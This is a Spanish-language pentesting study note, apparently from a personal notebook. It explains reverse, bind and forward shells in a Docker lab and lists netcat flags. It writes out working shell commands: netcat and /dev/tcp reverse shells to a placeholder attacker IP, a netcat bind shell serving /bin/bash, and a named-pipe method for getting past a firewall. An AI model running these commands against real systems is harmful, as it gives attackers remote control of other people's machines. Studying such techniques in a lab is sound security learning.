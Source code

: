 
**Reverse shell** -> Permite al atacante conectarse a una máquina remota desde una máquina de su propiedad, es decir, establecemos una conexión entre la máquina vulneraba y la máquina atacante.

Ej:
Podemos ponernos en escucha por un puerto dado con nc en nuestra máquina atacante (ej: nc -nlvp 443), y desde la máquina atacada nos enviamos una bash a nuestro puerto ( ej: nc -e /bin/bash ipAtacante 443 (este es si esta netcat instalado) otro ej: bash -i >& /dev/tcp/ipAtacante/443 0>&1 (este es un ejemplo si netcat no está instalado pero hay más opciones) )

Para este ejemplo creamos un docker y nos ponemos en escucha por el puerto 443 de nuestra máquina atacante: 

![[Pasted image 20231107111429.png]]

En este caso el docker no tiene instalado netcat por lo que lo instalamos nosotros:

![[Pasted image 20231107111514.png]]

**Netcat puede ser llamado de varias maneras, y este es uno de esos casos en los que se llama diferente**

*Previamente*:

![[Pasted image 20231107111814.png]]

Tenemos que conocer la ip de docker ya que en este caso sería la nuestra.

Ahora ejecutamos la siguiente línea en la máquina victima: 

![[Pasted image 20231107111917.png]]

Una vez ejecutado parece que no ha pasado nada a pesar de tener conexión:

![[Pasted image 20231107111946.png]]

Pero si escribimos, veremos que si tenemos la bash:

![[Pasted image 20231107112013.png]]


***Importante*** -> Vamos a tener la bash del usuario por el que nos lo hayamos mandado, es decir, en este caso es root, pero si fuera un usuario normal sería la bash de ese usuario.



---------------- 

**Bind shell** -> Aquí lo que hacemos es que "ofrecemos" la consola desde la máquina victima, es decir, en la máquina vulnerada nos ponemos en escucha por un puerto y aquí ponemos una bash (desde la máquina vulnerada : nc -nlvp 4646 -e /bin/bash), y como atacante, nos conectamos con netcat a ese puerto (nc ipVíctima 4646) y de esta manera obtenemos la shell.

**Mantenemos el docker previo**

![[Pasted image 20231107112351.png]]

Aquí vemos como con netcat nos ponemos en escucha por el 443 y en ese puerto ofrecemos una bash. Y ahora nos conectamos por la máquina atacante:

![[Pasted image 20231107112502.png]]

*La ip es la de la máquina víctima*
![[Pasted image 20231107112550.png]]

Y ya tendríamos conectividad:

![[Pasted image 20231107112622.png]]

----------------

**Forward shell** -> En este caso, estamos intentado usar cualquiera de las dos opciones anteriores pero hay algo que nos esté denegando el acceso, esto puede ser debido a que la máquina víctima tiene el firewall activado y es lo que nos bloquea el acceso.

Esta técnica implementa los **named pipes** (o tuberías nombradas) , que es el nombre de una técnica para lograr la comunicación entre procesos.

Instalamos iptables en la máquina victima ->  Es un programa de utilidad de espacio de usuario que permite a un administrador de sistema para configurar las tablas​ proporcionadas por el cortafuegos del núcleo Linux y las cadenas y reglas que almacena

En este caso, intentamos mandarnos una shell y no podemos:

![[Pasted image 20231110103132.png]]

![[Pasted image 20231110103142.png]]

Se queda así siempre, entonces hay que hacer lo siguiente.

Nos descargamos del github de s4vitar un script en python que se llama tty over http, y ahora lo editamos.

![[Pasted image 20231110103608.png]]

A priori solo hay que cambiar las urls, ya que vienen con index.php en vez de con cmd.php, que es el script que estamos usando nosotros.

También tenemos que editar el script en php dentro de la máquina ya que este script no funciona con etiquetas preformateadas como era <pre/> y se quedaría de la siguiente manera:

![[Pasted image 20231110103843.png]]

Y ejecutamos el script:

![[Pasted image 20231110104027.png]]

![[Pasted image 20231110104036.png]]

Y ya tenemos conectividad con la máquina

Este script lo que hace es que cuando le damos un comando, mkfifo lo que hace es meterlo en un archivo y luego hace un cat de otro dándonos el resultado.

-----

**Comandos netcat**:

-n -> No queremos que aplique resolución dns (igual que nmap)

-l -> Listen all connections, para poner el modo escucha

-v -> Verbose igual que nmap

-p -> Indicamos el puerto

-------

https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

En esta web hay un montón de reverse shell en diferentes lenguajes